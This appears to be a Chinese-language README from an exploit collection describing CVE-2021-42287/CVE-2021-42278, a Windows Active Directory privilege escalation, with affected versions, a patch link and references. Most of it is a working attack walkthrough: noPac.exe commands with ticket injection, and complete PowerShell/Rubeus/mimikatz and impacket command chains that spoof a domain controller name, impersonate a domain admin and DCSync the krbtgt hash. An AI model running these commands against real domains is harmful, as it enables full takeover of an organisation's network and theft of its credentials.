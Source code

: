 ### CVE-2021-42287

#### 描述

CVE-2021-42287/CVE-2021-42278组合拳能够通过普通用户权限账号，拿下Microsoft Windows Active Directory域服务管理员权限账号

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        | &#10004; |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-42287
```

#### 利用方式

编译环境

- VS2019（.NET Framework 4.0）AnyCPU Release

> 演示使用的是noPac项目进行

漏洞利用前置条件，以及注意点

- 能够添加机器普通⽤户 （MachineAccountQuota默认为10，值为0意味着普通⽤户⽆法创建机器账 户，也就⽆法直接利⽤这个漏洞）

  <img src="https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x01.png" alt="12" style="zoom:50%;" />

- 还有noPac这个工具是模拟域管administrator，但是如果域内管理员组中不存在这个⽤户ptt后会报错，需要通过`/IMPERSONATE domain_admin_user` 来进行指定管理员，报错如下

  ![image-20211214141231851](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x02.png)

首先获取域中的管理员账号

```powershell
net group "domain admins" /domain
```

获取管理员账号后执行如下命令

```powershell
.\noPac.exe -domain <域名> -user <能添加普通账户的账号> -pass <能添加普通账户的密码>  /dc <域控机器>  /mAccount <你想添加到域中的账号> /mPassword <你想添加到域中的密码> /service <票据的服务名> /IMPERSONATE <获取到的域管理员账号> /ptt
```

几个参数解释一下，票据服务名一般用cifs即可

```
域名：cn.ascotbe.test.com
域控机器：DC1.cn.ascotbe.test.com
票据的服务名：cifs
```

![image-20211214142856348](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x03.png)

然后通过执行以下命令来验证

```powershell
#查看票据
klist
#获取C盘文件
dir \\dc\c$
```

![image-20211214143041849](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-42287_0x04.png)

> 使用sam-the-admin项目

没测试，想用可以通过-h来查看命令

> 使用命令行执行

windows

```powershell
# 0. create a computer account
Import-Module .\Powermad.ps1

$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt
```

linux

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```



#### 参考项目

- [GhostPack](https://github.com/GhostPack/Rubeus)
- [Kevin-Robertson]( https://github.com/Kevin-Robertson/Powermad)
- [cube0x0](https://github.com/cube0x0/noPac)
- [sam-the-admin](https://github.com/WazeHell/sam-the-admin)

#### 分析文章

- [CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
